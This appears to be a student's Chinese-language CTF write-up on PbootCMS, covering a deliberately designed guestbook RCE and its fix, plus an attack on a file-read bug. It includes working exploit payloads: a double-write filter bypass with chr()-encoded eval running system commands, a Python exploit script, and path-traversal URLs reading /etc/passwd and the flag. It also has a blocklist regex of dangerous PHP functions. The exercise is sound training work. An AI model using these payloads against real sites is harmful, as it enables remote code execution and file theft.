








# 创新实践能力团队赛总结技术报告——张雨琦

## 实验环境

- 基础环境

  - OS：macOS Monterey 12.4
  - Apple M1

- 项目运行环境

  - Docker Desktop for Mac 4.3.2

    - Compose/1.29.2 


- 脚本开发及运行环境

  - Python/3.9.7 
  - Visual Studio Code/1.69.0

## 实验任务

- [x] 设计漏洞二：前台 RCE

  - [x] 漏洞设计
  - [x] Check 设计
  - [x] Exp 设计
  - [x] FixIt

- [x] 攻击漏洞一：前台任意文件读取

  - [x] 漏洞分析
  - [x] Exp 设计

## 实验过程

### 设计、破解与修复漏洞二：前台 RCE

> 前台 RCE 漏洞：在网站留言板处通过控制留言内容以执行脚本。

#### BuildIt

##### 漏洞设计

在留言板处可以 **通过控制留言内容实现代码执行 **。 

修改 `apps\api\controller\CmsController.php` 中的「addmsg() 函数」：


发现存在第一个过滤，「str_replace() 函数」将变量 `field_data` 中的 「pboot:if 标签」 过滤，可以用 **双写绕过** 解决。

在 `apps\home\controller\ParserController.php` 中「parserIfLabel() 函数」的功能为「解析 if 条件标签」。提交的内容起初为变量 `matches[0]` ，后面将「pboot:if 标签」中的 payload 值赋给 `matches[1]` ，过滤后提取出左括号前的字符串。

```php
public function parserIfLabel($content)
{
    $pattern = '/\{pboot:if\(([^}^\$]+)\)\}([\s\S]*?)\{\/pboot:if\}/';
    $pattern2 = '/pboot:([0-9])+if/';
    if (preg_match_all($pattern, $content, $matches)) {
        $count = count($matches[0]);
        for ($i = 0; $i < $count; $i ++) {
            $flag = '';
            $out_html = '';
            $danger = false;
                
            $white_fun = array(
                'date',
                'in_array',
                'explode',
                'implode'
            );
                
            // 还原可能包含的保留内容，避免判断失效
            $matches[1][$i] = $this->restorePreLabel($matches[1][$i]);
                
            // 解码条件字符串
            $matches[1][$i] = decode_string($matches[1][$i]);
                
            // 带有函数的条件语句进行安全校验
            if (preg_match_all('/([\w]+)([\\\s]+)?\(/i', $matches[1][$i], $matches2)) {
                foreach ($matches2[1] as $value) {
                    if ((function_exists($value) || preg_match('/^eval$/i', $value)) && ! in_array($value, $white_fun)) {
                        $danger = true;
                        break;
                    }
                }
            }
                
                
            // 如果有危险函数，则不解析该IF
            if ($danger) {
                continue;
            }
                
            eval('if(' . $matches[1][$i] . '){$flag="if";}else{$flag="else";}');
            if (preg_match('/([\s\S]*)?\{else\}([\s\S]*)?/', $matches[2][$i], $matches2)) { // 判断是否存在else
                switch ($flag) {
                    case 'if': // 条件为真
                        if (isset($matches2[1])) {
                            $out_html = $matches2[1];
                        }
                        break;
                    case 'else': // 条件为假
                        if (isset($matches2[2])) {
                            $out_html = $matches2[2];
                        }
                        break;
                }
            } elseif ($flag == 'if') {
                $out_html = $matches[2][$i];
            }
                
            // 无限极嵌套解析
            if (preg_match($pattern2, $out_html, $matches3)) {
                $out_html = str_replace('pboot:' . $matches3[1] . 'if', 'pboot:if', $out_html);
                $out_html = str_replace('{' . $matches3[1] . 'else}', '{else}', $out_html);
                $out_html = $this->parserIfLabel($out_html);
            }
                
            // 执行替换
            $content = str_replace($matches[0][$i], $out_html, $content);
        }
    }
    return $content;
}
```

使用「function_exists() 函数」 判断是否定义过函数，为避免 `$danger` 返回「false」，使其可以任意执行代码，引入「语言结构器 eval」 与「白名单 white_fun」进行 **安全校验** 。


**`$content` 内容可控** ，在函数名和括号间可以 **插入控制字符 `[\x00-\x20]`**，PHP 引擎会忽略这些控制字符，那么就可以绕过这个正则。

```php
preg_match_all('/([\w]+)([\\\s]+)?\(/i', $matches[1][$i], $matches2)
```

这里在 `core\basic\Model.php` ，加入新一层过滤，如果破解，同样可以 **双写绕过** 。


测试双写绕过的可行性：




> 函数 phpinfo() 可以显示出 php 所有相关信息。是排查配置 php 是否出错的主要方式之一。
>
> 函数 implied() 可以将数组元素拼接成字符串。

```shell
{pbootpbootpboot:if:if:if(implode('', ['c','a','l','l','_','u','s','e','r','_','f','u','n','c'])(implode('',['p','h','p','i','n','f','o'])))}!!!{/pbootpbootpboot:if:if:if}
```

执行 `phpinfo()` 进行测试，测试成功！




因此利用这一内容设计 Flag ，编写 POC 如下：

[ascii码对照表](https://wenku.baidu.com/view/de4c332c453610661ed9f474.html) 和 [进制转换器](https://jisuan5.com/hexadecimal/?hex=10)

```shell
{pbootpbootpboot:if:if:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr (0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr (0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr (0x3b))))}!!!{/pbootpbootpboot:if:if:if}
```

即执行命令`system("cat flag.php");`

**提供给解题人的线索为：pbootpbootpboot:if:if:if**


##### Check 设计

> 对漏洞二的检查主要是针对用户留言模块进行模拟提交留言，并检查留言是否成功。

**为了确保每次 Check 的唯一性，对留言内容进行随机留言。每次模拟留言完成后，会获取留言列表，检查是否出现模拟留言的随机内容**。

随机留言生成函数如下，利用「keyyyy-」和「-keyyyy」封装字符串。

```python
def makeKey():
    random.seed(time)
    alp = 'abcdefghijklmnopqrstuvwxyz'
    key = random.sample(alp,10)
    key="keyyyy-"+"".join(key)+"-keyyyy"
    return key
```

发送留言函数如下

```python
def postCheck(url,makeKey):
    post_data = {
        'contacts': 'checkkkkkkkk',
        'mobile': '1101008611123',
        'content': makeKey
    }
    response = requests.post(url, data=post_data)
    if response.status_code == 200:
        return True
    else:
        return False
```

获取留言函数如下，根据固定的「keyyyy-」和「-keyyyy」定位刚刚发送的留言。

```python
def getKey():
    r = requests.get("http://127.0.0.1/?gbook/")
    if r.status_code==200:
        flagg = re.findall(r'''keyyyy-(.+?)-keyyyy''', r.text)
        return "keyyyy-"+flagg[0]+"-keyyyy"
    else:
        return "err"
```

主函数

```python
if __name__ == '__main__':
    url = "http://127.0.0.1/?message/"
    mkey=makeKey()
    if postCheck(url,mkey):
        if mkey==getKey():
            print("Check Up")
        else:
            print("Check Down")
    else:
        print("Check Down")
```

check2.py 的执行情况如下





#### BreakIt

##### Exp 设计

「postExp() 函数」将 flag 插入靶标环境，「getFlag() 函数」利用正则表达式找出所有以「flag=」开头的字符串，并根据网站留言特点获取到最新插入的 flag 。

```python
def postExp(url):
    post_data = {
        'contacts': '666',
        'mobile': '1008611',
        'content': '{pbootpbootpboot:if:if:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr ('
                   '0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr '
                   '(0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr ('
                   '0x3b))))}!!!{/pbootpbootpboot:if:if:if} '
    }
    response = requests.post(url, data=post_data)
    if response.status_code == 200:
        print("Exp 插入成功")
        return True
    else:
        print("Exp 插入失败，请检查网站状态，response code=" + str(response.status_code))
        return False

```

```python
def getFlag():
    r = requests.get("http://127.0.0.1/?gbook/")
    flagg = re.findall(r'''flag="(.+?)";''', r.text)
    if (len(flagg)!=0):
        print(flagg[0])
    else:
        print("Flag获取失败")
```

```python
if __name__ == '__main__':
    url = "http://127.0.0.1/?message/"
    if postExp(url):
        getFlag()
```

Exp 可用性验证如下



#### FixIt

##### Before Fix： awdBreak 文件夹下

`apps\home\controller\FormController.php` line 68-80

```php
foreach ($form as $value) {
    $field_data = post($value->name);
    if (is_array($field_data)) { // 如果是多选等情况时转换
        $field_data = implode(',', $field_data);
    }
    $field_data = str_replace('pboot:if', '', $field_data);
    if ($value->required && ! $field_data) {
        alert_back($value->description . '不能为空！');
    } else {
        $data[$value->name] = $field_data;
        $mail_body .= $value->description . '：' . $field_data . '<br>';
    }
}
```

`core\basic\Model.php` line 1252-1254

```php
if (M != 'admin') {
    $sql = preg_replace('pboot:if', '', $sql); // 过滤插入cms条件语句
}
```

##### After Fix：awdFix 文件夹下

`apps\home\controller\FormController.php`  line 68-80

```php
foreach ($form as $value) {
    $field_data = post($value->name);
    if (is_array($field_data)) { // 如果是多选等情况时转换
        $field_data = implode(',', $field_data);
    }
    $field_data = preg_replace_r('/pboot:if/i', '', $field_data);
    if ($value->required && ! $field_data) {
        alert_back($value->description . '不能为空！');
    } else {
        $data[$value->name] = $field_data;
        $mail_body .= $value->description . '：' . $field_data . '<br>';
    }
}
```

`core/basic/Model.php` line 1252-1254

```php
if (M != 'admin') {
    $sql = preg_replace_r('/pboot:if/i', '', $sql); // 过滤插入cms条件语句
}
```

preg_replace_r() 函数

```php
function preg_replace_r($search, $replace, $subject)
{
    while (preg_match($search, $subject)) {
        $subject = preg_replace($search, $replace, $subject);
    }
    return $subject;
}
```

> php 中「preg_replace() 函数」语法：
>
> ```php
> mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
> ```
>
> 函数功能：搜索 subject 中匹配「pattern」的部分， 以「replacement」进行替换。

将「preg_replace() 函数」替换为「preg_replace_r() 函数」使得 **可以循环匹配和过滤**

在 `apps/home/controller/ParserController.php`  新增 **过滤判断函数** ，过滤掉危险函数

```php
// 过滤特殊字符串
if (preg_match('/(\$_GET\[)|(\$_POST\[)|(\$_REQUEST\[)|(\$_COOKIE\[)|(\$_SESSION\[)|(file_put_contents)|(file_get_contents)|(fwrite)|(phpinfo)|(base64)|(`)|(shell_exec)|(eval)|(assert)|(system)|(exec)|(passthru)|(print_r)|(urldecode)/i', $matches[1][$i])) {
    $danger = true;
}
```

利用 Exp 验证漏洞是否被修复，在修复后的环境运行 Exp ，插入失败，说明修复成功！


或者在修复好的环境下，重新在留言框中输入以下内容

```
{pbootpbootpboot:if:if:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr (0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr (0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr (0x3b))))}!!!{/pbootpbootpboot:if:if:if}
```

插入失败，同样可以说明修复成功！



### 攻击漏洞一：前台任意文件读取

#### BreakIt

##### 漏洞分析

> **/etc/passwd**：Linux 系统保存用户信息及其工作目录的文件，权限是可读。

参考 [过往版本漏洞](https://xz.aliyun.com/t/7744#toc-0)，此类漏洞大多存在 `../` 和 `\` 的过滤现象，可利用 **双写绕过** 解决，并尝试利用相对路径 `../etc/passwd` 破解。

以「PbootCMS」为模版的网站为实现搜索功能常使用「search」等标签，在 [PbootCMS英文站搜索结果页面包屑和标题翻译](https://www.srso.cn/seo/770.htm) 等在线文档中曾多次出现了「searchtpl」等属性名。

综合以上，反复多次试验找出了根目录

`?search=&searchtpl=....//....//....//....//....//....//....//....//etc/passwd`


猜想有「flag.php」或「flag」放在根目录或其子目录下，试验发现「flag」直接放在根目录下，成功拿到 flag

`?search=&searchtpl=....//....//....//....//....//....//....//....//flag`


##### Exp 设计

利用「request 库」即可得到 flag

```python
import requests
def exp(url):
    r=requests.get(url)
    flag=r.text
    return flag
if __name__ == '__main__':
    print(exp("http://127.0.0.1/?search=&searchtpl=....//....//....//....//....//....//....//....//flag"))
```

Exp 在修复前后的两种环境中运行情况如下





## 总结与反思

为漏洞二设计 flag 时出现绕过失败的情况

```shell
{pbootpbootpboot:if:if:if((chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr (0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr (0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr (0x3b)))}!!!{/pbootpbootpboot:if:if:if}
```


```shell
{pbootpbootpboot:if:if:if((eval(chr(0x73).chr(0x79).chr(0x73).chr(0x74).chr(0x65).chr(0x6d).chr(0x28).chr(0x22).chr(0x63).chr(0x61).chr(0x74).chr(0x20).chr(0x66).chr(0x6c).chr(0x61).chr(0x67).chr(0x2e).chr(0x70).chr(0x68).chr(0x70).chr(0x22).chr(0x29).chr(0x3b))))}!!!{/pbootpbootpboot:if:if:if}
```


解决思路：仔细观察「parserIfLabel() 函数」中正则表达式及白名单的过滤情况，此函数过滤了 「base64_decode」，使用「chr() 函数」拼接时要注意在「chr」和括号间 **插入空格** ，而 **eval() 函数** 是 PHP 语言中的常用函数，它表示「将字符串当成 PHP 代码来计算」，非常基本也至关重要。

由此可见 [PHP](https://www.runoob.com/php/php-tutorial.html) 和 [正则表达式](https://www.runoob.com/regexp/regexp-tutorial.html) 等语法知识需要在不断练习中才能熟练掌握。

```php
// 解码条件字符串
$matches[1][$i] = decode_string($matches[1][$i]);
                
// 带有函数的条件语句进行安全校验
if (preg_match_all('/([\w]+)([\\\s]+)?\(/i', $matches[1][$i], $matches2)) {
	foreach ($matches2[1] as $value) {
		if ((function_exists($value) || preg_match('/^eval$/i', $value)) && ! in_array($value, $white_fun)) {
			$danger = true;
			break;
		}
  }
}
```

## 参考资料

- [MacOS Docker 安装](https://www.runoob.com/docker/macos-docker-install.html)
- [Overview of docker compose CLI](https://docs.docker.com/compose/reference/)
- [渗透测试 - 黑客技术 | 从 *Pboot* CMS 审计到某狗绕过_吾爱漏洞](http://www.52bug.cn/hkjs/6720.html)
- [PHP 动态特性的捕捉与逃逸](https://www.leavesongs.com/PENETRATION/dynamic-features-and-webshell-tricks-in-php.html)
- [PHP preg_replace() 函数](https://www.runoob.com/php/php-preg_replace.html)
- [从 0 到 1 CTFer 成功之路 任意文件读取漏洞---学习笔记](https://blog.csdn.net/aweiname2008/article/details/119522187?spm=1001.2101.3001.6661.1&utm_medium=distribute.pc_relevant_t0.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-1-119522187-blog-118574158.pc_relevant_multi_platform_whitelistv1&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-1-119522187-blog-118574158.pc_relevant_multi_platform_whitelistv1&utm_relevant_index=1)
- [CTF 中文件读取漏洞常见读取路径](http://t.zoukankan.com/4sh3s-p-15551544.html)
- [PHP 教程](https://www.runoob.com/php/php-tutorial.html)
- [正则表达式教程](https://www.runoob.com/regexp/regexp-tutorial.html)

